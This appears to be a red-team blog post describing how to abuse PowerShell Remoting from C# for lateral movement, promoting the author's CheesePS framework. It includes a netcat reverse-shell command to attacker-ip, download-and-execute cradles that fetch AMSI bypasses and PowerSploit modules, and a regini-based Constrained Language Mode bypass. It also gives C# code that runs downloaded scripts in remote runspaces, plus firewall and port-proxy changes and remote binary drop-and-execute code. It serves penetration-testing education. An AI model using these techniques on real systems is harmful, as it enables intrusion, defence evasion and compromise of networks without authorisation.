

# Lateral Movement Using PSRemoting via C#

## 0. TL;DR

This post is a description of a study of PowerShell Remoting capabilities, and how to abuse this legitimate functionality for local execution and lateral movement purposes.
Moreover, it will be showed how to leverage the C# class `System.Management.Automation` to load and run arbitrary PowerShell modules, bypassing common defences.

## 1. Introduction

Often, during a red team engagement or internal penetration test, a tester requires to move laterally in the compromised domain, to extend his access and permissions up to the designated target.

 >Lateral movement is the process of moving from one compromised host to another. 

Among the methods used to accomplish this, the easiest and commonly used (at least in the past) was surely PowerShell Remoting. While this is still a method commonly used for lateral movement and local execution, this technique suffers for an ever-increasing security, which makes it difficult to use it now as much as it was possible in the past. This includes, among others:

* Defender and other AV
* Anti-Malware Scan Interface (AMSI)
* Windows Lockdown Policies (WLDP)
* PowerShell Constrained Language Mode
* Disabled service

Following, it will be showed how to execute PowerShell using C#, and how to implement known techniques to evade defences like AMSI, WLDP, traffic interception and so on. 

All the techniques presented in this document have been implemented in a general framework called [CheesePS][1].

### 1.1 PowerShell Remoting

PowerShell remoting is a way to access remote machines across a network, and run PowerShell commands on them. Remoting builds on earlier implementations of this idea, and in fact, remoting has been part of PowerShell for quite some time. Some cmdlets have long supported a limited form of remoting, in which code can be executed on remote machines.

By default, a remote PSSession is established by the connecting machine on the target sending a request at `http://target:5985/WSMAN` (SSL on port 5986), using the **WS-Management Protocol**. This protocol is based different standards, such as HTTPS, SOAP over HTTP (WS-I profile), SOAP 1.2, WS-Addressing, WS-Transfer, WS-Enumeration, and WS-Eventing.

### 1.2 Prerequisites

In order to use PowerShell Remoting, both the computers involved in the process should met some prerequisites:

* Windows PowerShell 3.0 or later
* The Microsoft .NET Framework 4 or later
* Windows Remote Management 3.0

### 1.3 Configurations

The PowerShell remote feature can be enabled with:
```powershell
Enable-PsRemoting
```

By default, only Local Administrators of the machine can execute commands using PowerShell remoting. 
To enable the feature for non-administrators, the following command can be used:
```powershell
Set-PSSessionConfiguration Microsoft.PowerShell -ShowSecurityDescriptorUI
```
In the property sheet, change the Security Descriptor of `Microsoft-PowerShell` session configuration.

Moreover, to enable access to the service, the port tcp/5985 must be reachable
```powershell
Set-NetFirewallRule -Name "WINRM-HTTP-In-TCP-PUBLIC" -RemoteAddress Any
```
Last thing, to Authenticate to the service, the requesting computer should be in the same domain of the target computer, or it has to be granted access to the machine.

In order to grant access to non-domain computers, the following command can be used:
```powershell
Set-Item wsman:localhost\client\trustedhosts -Value *
```

### 1.4 Wrap-it up

To summarize, in order to execute commands on a remote target running in the network, an attacker should:

* Ensure PowerShell Remote is enabled on the target
* Have visibility over port tcp/5985
* Be in the same domain of the target machine or controlling a computer which has been granted access to the functionality
* Own valid local administrator credentials

## 2. Abusing PSRemoting

It's pretty simple to understand why this functionality is so interesting: it gives immediate code execution capabilities on a remote target.
However, it's not always as simple as it seems. In real life scenarios, having PowerShell remoting access to a machine doesn't mean that the attacker can directly obtain a reverse shell. Considering the following example:
```powershell
$pass=(ConvertTo-SecureString "Passw0rd!" -AsPlainText -Force); $cred=(New-Object System.Management.Automation.PSCredential("TEST\Administrator", $pass)); Invoke-Command -ComputerName pc-1 -Credential $cred -ScriptBlock { wget http://attacker-ip/nc.exe -O C:\Users\Public\nc.exe; C:\Users\Public\nc.exe -e C:\Windows\system32\nc.exe attacker-ip 4444 }
```

Considering a default setup of Windows 10 or Windows 2019, what can go wrong?

- A/V Defender intercepts NetCat and blocks it
- If configured, Windows Lockdown Policy can identify NetCat as "untrusted code", preventing it from executing on the system

And using pure PowerShell reverse shell? 

- The Anti-Malware Scan Interface (AMSI) will intercept that string and block that
- If configured, Constrained Language Mode (CLM) imposes heavy restrictions to the set of callable objects, it wouldn't be possible to execute something as complex as a reverse shell

To confirm that Constrained Language Mode is enforced on a remote target, it is enough to issue the command:
```powershell
$pass=(ConvertTo-SecureString "Passw0rd!" -AsPlainText -Force); $cred=(New-Object System.Management.Automation.PSCredential("TEST\Administrator", $pass)); Invoke-Command -ComputerName pcoip -Credential $cred -ScriptBlock { $ExecutionContext.SessionState.LanguageMode }

PSComputerName RunspaceId                           Value
-------------- ----------                           -----
pc-2          40ba2a12-4c2c-478d-a3c8-55c1fae4b275 ConstrainedLanguage
```
To confirm that Defender Real-Time Protection is enabled on a remote target, the following command might be used instead:

```powershell
$pass=(ConvertTo-SecureString "Passw0rd!" -AsPlainText -Force); $cred=(New-Object System.Management.Automation.PSCredential("TEST\Administrator", $pass)); Invoke-Command -ComputerName pcoip -Credential $cred -ScriptBlock { IEX 'Write-Output "AmsiScanBuffer"' }
At line:1 char:1
+ Write-Output "AmsiScanBuffer"
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [Invoke-Expression], ParseException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent,Microsoft.PowerShell.Commands.InvokeExpressionCommand
    + PSComputerName        : pc-2
```

The only way to proceed is to find a way to bypass these protections and force the target to execute what we want to execute. How? 

### 2.1 Analysing the defences

Before digging into actual bypasses, it is necessary to understand where the defences try to prevent an attacker from performing unwanted actions. To ease the analysis, it is useful to divide two possible scenarios:

* **Local Execution Scenario:**<br/>
In this scenario, the attacker compromised a low privileged user and accessed a machine (i.e. PC-1) in the target network. At this stage, he needs to bypass Constrained Language Mode, AMSI and Defender to execute arbitrary PowerShell scripts/commands on the local machine.
* **Remote Execution Scenario (Lateral Movement):**<br/>
In this scenario, as well as being in control of a low privileged user and a machine (PC-1), the attacker knows the credentials of a Local Administrator of another machine (i.e. PC-2) within the network, with PSRemoting enabled.

###### Local execution

In the first scenario, the attacker would need to:

* Bypass Local Constrained Language Mode
* Bypass Local AMSI 
    - AMSI will scan the local command line, and the content of any script before it's executed
* Bypass Local A/V 
    - By default, the protection by Windows Defender offers a limited form of protection from known threats. Even if it is usually more efficient against executables, it might stop the attacker from downloading known malicious PowerShell scripts as well

###### Remote execution

In the second scenario, an attacker should:

* Bypass Remote Constrained Language Mode
* Bypass Local AMSI
    - As above, the local AMSI will scan the command line arguments passed to the script
* Bypass Remote AMSI
    - Of course, whatever command sent to the remote PowerShell session will be scanned as well
* Overcome Firewall Restrictions
    - The remote machine might not be allowed to talk with the internet and with the attacker controlled web server
* **[OPTIONAL]** Bypass Remote A/V and WLDP
    - In the case of a "Download binary and execute" payload, the A/V might trigger, killing the process
    - Moreover, if configured, Windows LockDown Policy (WLDP) might block the executable even if the A/V doesn't see it as malicious

### 2.2 Bypassing Constrained Language Mode (CLM)

###### Local Execution

This is the first line of defence the attacker should circumvent, of course, as it affects the local execution capabilities. 

The proposed bypass technique is very simple, and consists in abusing the class `System.Management.Automation.Runspaces.Runspace` to provide a PowerShell object with a FullLanguageMode Environment.

The following snippet shows how to do it:

```cs
Runspace rs = RunspaceFactory.CreateRunspace();
PowerShell ps = PowerShell.Create();

ps.Runspace = rs;
ps.AddCommand("Write-Host").AddArgument("$ExecutionContext.SessionState.LanguageMode");
ps.Invoke();
```

This technique has been documented in the past, and it's described very well in [THIS][5] nice article by [Brian Fehrman](http://www.blackhillsinfosec.com/?team=brian-fehrman) of [BHIS](http://www.blackhillsinfosec.com).

As this is not a new technique, there are already tools that implements the same concept, like [PowerShDll](https://github.com/p3nt4/PowerShdll) by [p3nt4](https://twitter.com/xp3nt4) and **CsPosh** of [MiscTools][2] by [Rasta Mouse][4], which can also handle PSRemoting.

###### Remote Execution

It is also possible to create remote PowerShell runspaces, providing a WS-Management connection to the remote target:

```cs
var uri = new Uri("http://pc-2.test.local:5985/WSMAN");
conn = new WSManConnectionInfo(uri);

/* SET Valid Credentials here */

Runspace rs = RunspaceFactory.CreateRunspace(conn);
PowerShell ps = PowerShell.Create();

ps.Runspace = rs;
ps.AddCommand("Write-Host").AddArgument("$ExecutionContext.SessionState.LanguageMode");
ps.Invoke();
```

In some cases, if **Applocker** is used to enforce CLM, this rule might not apply to Administrators, or might be configured in a way that C# runspaces will still run in Full Language mode.

#### What if this is not enough?

Unfortunately, if the remote target enforces CLM using `$Env:__PSLockDownPolicy`, it's very likely that also runspaces created this way will be subject to the same restriction. What to do in these cases?

The easiest and most common way to bypass CLM is PowerShell downgrade. As CLM was introduced with PowerShell v5, switching to previous versions (v2) is an effective way of bypassing it. To prove that, it is enough to run the following code:

```powershell
$pass=(ConvertTo-SecureString "Passw0rd!" -AsPlainText -Force); 
$cred=(New-Object System.Management.Automation.PSCredential("pc-2\Administrator", $pass)); 
Invoke-Command -ComputerName pcoip -Credential $cred -ScriptBlock { 
    Write-Output $PSVersionTable;
    Write-Output ""; 
    Write-Host "LanguageMode: " $ExecutionContext.SessionState.LanguageMode; 
    Write-Output ""; 
    powershell -version 2 "Write-Output `$PSVersionTable";
    powershell -version 2 "Write-Host 'LanguageMode:'`$ExecutionContext.SessionState.LanguageMode" 
}
```

Below a screenshot proving the above:


However, this bypass will fail if PowerShell v2 has been disabled on the system (it requires manual disabling). Moreover, it is not possible to directly specify the version of PowerShell used in a C# Runspace, as it uses different assemblies depending on the version of .NET used to compile the Program using it. There are a few alternatives to this behaviour, but they are out from the context of this article. 

As an alternative way to bypass CLM, it might be legit to think that overwriting the environment variable `__PSLockDownPolicy` would be a valid bypass, particularly in the remote context of pc-2, where the attacker already has priviledged access.

Surprisingly or not, although this method seems to be valid if performed locally by an Administrator, if run against a remote target, this approach failed quite miserably in multiple tests performed, showing that it's not really feasible to overwrite `__PSLockDownPolicy` from within a Remote CLM PowerShell Interface. An example of that is showed below:

> Command Executed:
>
> ```powershell
> set __PSLockDownPolicy=8
> setx __PSLockDownPolicy 8
> $Env:__PSLockDownPolicy=8
> $ExecutionContext.SessionState.LanguageMode = "FullLanguage"
> [System.Environment]::SetEnvironmentVariable('__PSLockDownPolicy','8',[System.EnvironmentVariableTarget]::Process)
> # The following commands caused infinite hanging
> reg add 'HKLM\System\CurrentControlSet\Control\Session Manager\Environment' /v __PSLockDownPolicy /t REG_SZ /d 8
> reg delete 'HKLM\System\CurrentControlSet\Control\Session Manager\Environment' /v __PSLockDownPolicy
> ```


**NW:** The remote target is a fully updated Windows Server 2019

What come to the rescue is the old, and maybe almost forgotten MS tool **REGINI** (`regini.exe`). This tool is able to manipulate permissions and values of any registry key within the system, and, unlike his companion `reg.exe`, doesn't suffer by the same "hanging" behaviour when launched in a remote PowerShell session.

However, `regini.exe` accept only a file as input, with a well defined format. As such, the only method to use it is to plant a temporary file on the remote target, and then instruct `regini.exe` to use it. The file template used in this operation will be the following:

```
HKLM\System\CurrentControlSet\Control\Session Manager\Environment [1 5 7]
    __PSLockdownPolicy = REG_SZ 8
```

_The target of this operation will be the registry key `HKLM\System\CurrentControlSet\Control\Session Manager\Environment`, the Microsoft tool will change it's DACL to permit World Full Access, and then set the value of `__PsLockDownPolicy` to 8 (FullLanguage mode)_

<div class="embed-container">
  <iframe
      style="display: block;margin-left: auto;margin-right: auto;"
      width="800"
      height="600"
      src="https://drive.google.com/file/d/1yzUNYw9-X8AqarSADNir1mk-usvHS28t/preview"
      frameborder="0"
      allow="autoplay"
      allowfullscreen="">
  </iframe>
</div>

After `regini.exe` tampers the environment variable, just restarting the PowerShell session would be enough to enable FullLanguage mode. This can be easily implemented using C# Runspaces as well, and provides a general way to bypass CLM that works against both Local and Remote targets (given that the attacker as Administrative access to the target). 

However, there is a drawback: as `regini.exe` only accepts INI files, the trick requires to write a simple configuration file wherever in the target system, prior to the call to `regini.exe`.

### 2.3 Bypassing AMSI

In order to bypass AMSI, it's necessary to understand how and where AMSI is invoked in the first place:


From Microsoft documentation, it seems that the AMSI scan is performed in at least two phases:

* Against the command line (i.e. argv), this includes `-Command` and `-EncodedCommand` parameters
* Against the content of any script imported (i.e. `Import-Module` ...)
* Against the content of any script launched directly or via `Invoke-Expression`

Always following the documentation, AMSI should be effect also against obfuscation, as the scan should happen just before execution, that means when the script should appear "in clear" to be executed by the script engine.

> For more theory on AMSI and potential improvements, please refer to this amazing research:
> 
> - [AMSI-Based Detection of Malicious PowerShell Code][3]

At this point, AMSI might appear like a very good defence line... Well, not really. The main weak point identified so far is that AMSI is mostly based on signature/pattern/string matching:

Indeed, in a few tests, AMSI could not detect the use of PowerUp at all:

> ```powershell
> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1')
> Invoke-AllChecks
> ```


But it had more luck with PowerView:
> ```powershell
> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')
> IEX (New-Object Net.WebClient).DownloadString('http://192.168.152.100/PowerView.ps1')
> Import-Module C:\payloads\PowerView.ps1')
> ```


At this point, it should be clear that while AMSI is not a unerring defence line, it might get annoying in a number of situations. 

During the time, numerous bypass techniques were developed, which main aim is to defuse the AMSI scan, making it fail, return untrue values or preventing it from running. When PowerShell is invoked, the AMSI Dynamic-Link Library (DLL) is mapped into the virtual address space of the process. 
Once the DLL is loaded, the PowerShell process can access internal functions exported by the DLL, and use those to scan the user input. Usually, DLLs are mapped into R-X memory (as there is usually no need to modify this areas dynamically); however, as the Virtual Memory of a process is accessible (of course!) by the process itself, it is possible to make this memory areas as Writeable, using function as VirtualProtect, and then tamper its content. 

> For more theory about AMSI bypassing, refer to the following amazing posts: 
>
> * https://rastamouse.me/tags/amsi/ 
> * https://www.contextis.com/us/blog/amsi-bypass
> * https://blog.f-secure.com/hunting-for-amsi-bypasses/
> * https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/

To perform an AMSI bypass using C#, two main paths might be followed:

1. Load `amsi.dll` directly from the C# process, and defuse it (only for local execution)
2. Use a PowerShell AMSI bypass from the `System.Management.Automation.PowerShell` object

Point 1. is usable only locally, as the only way to interact with the remote target is through the WS-Management connection, there is no easy way to execute C# code directly.

With that in mind, implementing an AMSI Bypass is not so difficult, and there are more than a few PoC available on the internet, such as [this](https://github.com/0xB455/AmsiBypass).

Point 2., instead, gives the attacker the possibility to load and execute any AMSI Bypass written in PowerShell. As an example, consider the following snippet:

```cs
PowerShell ps = PowerShell.Create();
string code = "IEX (New-Object Net.WebClient).DownloadString('http://attackerip/AmsiBypass.ps1');";
ps.AddScript(code).Invoke();
```

### 2.4 Overcoming the firewall

Overcoming the firewall can be a troublesome activity at times. Consider a scenario in which **PC-1** has been compromised and **PC-2** is a server with no direct access to the internet, either because a firewall blocks it or because it has no proxy configured:



In the above example, an attacker should set up one or two reverse port forwarding in order to reach a self-controlled web server to deliver the payload to **PC-2**, like:

* On **PC-1**, with a low privilege user, it is possible to setup a reverse port forward via Meterpreter: 

```
portfwd add -R -p 8080 -L X.X.X.X -l 8080
```

* If required, on **PC-2**, even with PowerShell Constrained Language Mode, it should be possible to issue a netsh command, like:

```powershell
$pass=(ConvertTo-SecureString "Passw0rd!" -AsPlainText -Force); 
$cred=(New-Object System.Management.Automation.PSCredential("test.local\Administrator", $pass)); 
Invoke-Command -ComputerName pc-2.test.local -Credential $cred -ScriptBlock {
    netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=8080 connectaddress=10.0.0.X
    netsh advfirewall firewall add rule name="My Sweet Local Port" dir=in action=allow protocol=TCP localport=8080
}
```

After that, it should be possible to bypass AMSI and execute any payload using the following commands:

```powershell
$pass=(ConvertTo-SecureString "Passw0rd!" -AsPlainText -Force); 
$cred=(New-Object System.Management.Automation.PSCredential("test.local\Administrator", $pass)); 
Invoke-Command -ComputerName pc-2.test.local -Credential $cred -ScriptBlock {
    # AMSI bypass
    IEX (New-Object Net.WebClient).DownloadString('http://127.0.0.1:8080/A.m.s.i.Bypass.ps1')
    # Import other modules or execute other scripts
    IEX (New-Object Net.WebClient).DownloadString('http://127.0.0.1:8080/PowerView.ps1')
    # Whatever needed 
}
```

However, if anything goes wrong, it might prove impossible to use any payload at all on that target. 

To overcome this potential issue, and even more to simplify this process, C# can be used to do all the heavy lift and let the attacker do more interesting stuff. The concept is very simple, and consist into avoiding any connection at all from the target server. In order to do that, it is necessary to let **PC-1** downloading all the scripts needed, passing them all to **PC-2** using the only allowed connection: **WS-Management on tcp/5985**.

#### Implementing a remote "Import-Module"

The general technique used to import arbitrary modules and PowerShell scripts, uses the old and stable `Invoke-Expression` trick. In order to avoid an outgoing connection from the remote target, though, it is necessary to have an already available stringified copy of the script that should be imported.

As an example, please consider the following snippet:

```cs
PowerShell ps = PowerShell.Create();
// Downloading module/script
string script = (new WebClient()).DownloadString("http://attackerip/evil.ps1");
// Import template
string code = String.Format("IEX {0}", script);
// Transferring script to the remote process
ps.AddScript(code).Invoke();
```

The script is downloaded by the C# Program, executing locally, and it's then passed to the remote runspace, via `AddScript`. In this way, the remote PowerShell session will have access to the script, but it won't be asked to open external connections.

### 2.5 Bypass A/V and WLDP

Bypassing the A/V is something to have in mind when trying to plant executables on the local or remote target, and can be bypassed only using executables with unknown signatures, modifying the payload to avoid/break known signatures and/or using techniques like Process Injection. 

Regarding in-memory execution, from v4.8, the .NET framework uses both AMSI and Windows Lockdown Policy (WLDP) to block potentially unwanted software running from memory. WLDP will verify the digital signature of dynamic code while AMSI will scan for software that is either harmful or blocked by the administrator.

Why this is interesting in this context? Well, as for PowerShell is concerned, C# assemblies can be loaded dynamically, using one of the following methods:

```powershell
# Method 1
Add-Type -Path 'C:\Windows\Temp\evil.dll'

# Method 2
$bytes = [System.IO.File]::ReadAllBytes('C:\Windows\Temp\evil.dll')
[System.Reflection.Assembly]::Load($bytes)

# Method 3
$Assembly = [System.Reflection.Assembly]::LoadFrom("C:\Windows\Temp\evil.dll");

# Method 4: To be used with Standard Assemblies
[System.Reflection.Assembly]::LoadWithPartialName("Microsoft.X.X")
```
    
Moreover, as the aim is to use PowerShell from C#, there are good chances WLDP could interfere if the attacker attempts to reflectively load C# binaries.

As for AMSI, WLDP can be bypassed via in-memory code patching, targeting `wldp.dll`.

As it isn't strictly necessary to do that in this context, this argument won't be explained in detail, but [CheesePS][1] provides a built-in WLDP bypass and offers the possibility to import a custom, PowerShell-based bypass.

> For the theory on WLDP, refer to the following articles:
> 
> * https://posts.specterops.io/documenting-and-attacking-a-windows-defender-application-control-feature-the-hard-way-a-case-73dd1e11be3a
> * https://modexp.wordpress.com/2019/06/03/disable-amsi-wldp-dotnet/

#### Implementing Binary Transfer

As the main objective of the project is to avoid any outgoing connections from the target server, it was necessary to find a way to transfer executables within using the WS-Management connection. In order to do that, in a similar way to what was done previously for PowerShell scripts, CheesePS leverages the byte array binary representation to "transfer" binaries from C# to PowerShell, using then the remote PowerShell session to either store them on the remote file system, or reflectively load them.

An example of the code handling this functionality is as easy as the following:

```cs
// Store and Execute code
string execute_stub = $"$PEBytes = [byte[]] (";
try
{
    // Function to get the byte-array representation of the binary
    byte[] assembly = LoadAssembly(execute_assembly, assembly_encrypted, aes_key);
    string destination = $"C:\\Users\\Public\\{Path.GetFileNameWithoutExtension(Path.GetRandomFileName())}.exe";

    // Returns
    //     $PEBytes = [byte[]] (0x4D, 05A, ... , 0x00);
    execute_stub += $"0x{BitConverter.ToString(assembly).Replace("-", ", 0x")} );";

    // Normal Execution (No reflective injection)
    // - Stores the file given as WriteAllBytes 
    execute_stub += $"[io.file]::WriteAllBytes('{destination}',$PEbytes);sleep 1;";
    // - Executes the saved file
    execute_stub += $"& '{destination}' {code}";
} catch {
    Console.WriteLine("ERROR: Something went Wrong");
}
```

### 2.6 Considerations

If AMSI is defused, Windows Defender doesn't prevent an attacker from importing modules like `PowerView` or `PowerUp`, but other A/V and EDR might get in the middle of the process. 
Moreover, some form of EDRs, and also Windows ATP, should be able to detect any attempt to patch `amsi.dll`, and may potentially be able to block the attempt.

To partially mitigate this problem, [CheesePS][1] encrypts the payload in transit, so that it might still get viewed by an EDR or an IPS in place, but it won't be "understood", potentially evading some form of detection. The payload then, will be decrypted just before use.

In the same way, entire binaries, dlls and other dynamically loadable content can be safely encrypted in transit and at rest.

However, this technique is not enough to completely avoid detection, and surely it won't be able to bypass AMSI, as the PowerShell Script Engine doesn't support the execution of an encrypted payload (and that is the reason why AMSI is so effective).

## 3 CheesePS

### 3.1 Functionalities

Talking about [CheesePS][1], the framework implements the following functionalities:

- Local Built-In AMSI Bypass
- Local Built-In WLDP Bypass
- Local/Remote Built-In CLM Bypass
- Local/Remote Command Execution
- Local/Remote Arbitrary PowerShell Module Import
- Local/Remote Binary Execution
    * Store and Run
    * Reflective Loading
    
### 3.2 Communications

CheesePS works using the local target as a gateway for all outgoing connections, file downloads, and such. The tools has been designed to not require any outgoing connection from the remote target to import modules, download binaries or other activities. The only traffic that involves the remote target should be on port tcp/5985 (or tcp/5986, if using HTTPS). 

### 3.3 Commands, Imports, Modules

The funny thing about the framework is that the user is not required to port anything, CheesePS works with the same exact PowerShell scripts and modules used in the past, just loaded an run by a C# tool.

### 3.4 Workflow


### 3.5 Demo time

<div class="embed-container">
  <iframe
      style="display: block;margin-left: auto;margin-right: auto;"
      width="800"
      height="600"
      src="https://drive.google.com/file/d/1xJM-FcA9cuis-g1WTdRpeCIy4VR4LmeI/preview"
      frameborder="0"
      allow="autoplay"
      allowfullscreen="">
  </iframe>
</div>

### 3.6 Download CheesePS

As always, the full code is available on GitHub, and ~~are~~ will be available at [CheeseTools][1]. Releasing soon...

## 4. Credits

> The first time I came up with this idea I was digging into [Zero-Point Security](https://twitter.com/_RastaMouse) CRTO course. 

Big thanks to Daniel Duggan (aka Rasta_Mouse), and his ZeroPoint Security RTO course, for motivating me and help me out with this article.

[Back to Red Teaming](../../)

[Back to Home](https://klezvirus.github.io/)

[1]:https://github.com/klezVirus/CheeseTools
[2]:https://github.com/rasta-mouse/MiscTools
[3]:https://arxiv.org/pdf/1905.09538.pdf
[4]:https://twitter.com/rasta_mouse
[5]:https://www.blackhillsinfosec.com/powershell-without-powershell-how-to-bypass-application-whitelisting-environment-restrictions-av/